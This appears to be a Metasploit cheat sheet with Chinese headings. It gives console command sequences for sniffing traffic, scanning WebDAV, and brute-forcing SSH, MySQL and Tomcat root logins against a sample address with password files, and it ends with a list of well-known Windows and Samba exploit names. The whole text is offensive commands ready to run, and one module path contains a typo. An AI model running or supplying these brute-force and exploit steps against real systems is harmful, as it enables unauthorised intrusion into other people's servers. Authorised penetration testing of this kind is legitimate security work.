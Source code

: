 ### 嗅探抓包

use auxiliary/sniffer/psnuffle
run

### webdav

use auxiliary/scanner/http/webdav_scanner
show options
set rhosts 192.168.1.1
set threads 50
run

### ssh口令枚举

use auxiliary/scanner/ssh/ssh_login
show options
set rhost 192.168.1.1
set username root
set pass_file /root/pass.txt
set threads 50
run

### mysql口令枚举

search mysql
use auxiliary/scanner/mysql/mysql_login
show options
set rhost 192.168.1.1
set username root
set pass_file /root/pass.txt
set threads 50
run

### tomcat口令枚举

search tomcat
use auauxiliary/scanner/http/tomcat_mgr_login
set rhosts 192.168.1.1
set pass_file /root/pass.txt
set user_file /root/user.txt
exploit


## exploit

### 常见漏洞

ms10_002
ms10_018
ms12_020
ms10_046
ms08_067
ms12_004
linux samba漏洞利用
dll注入攻击
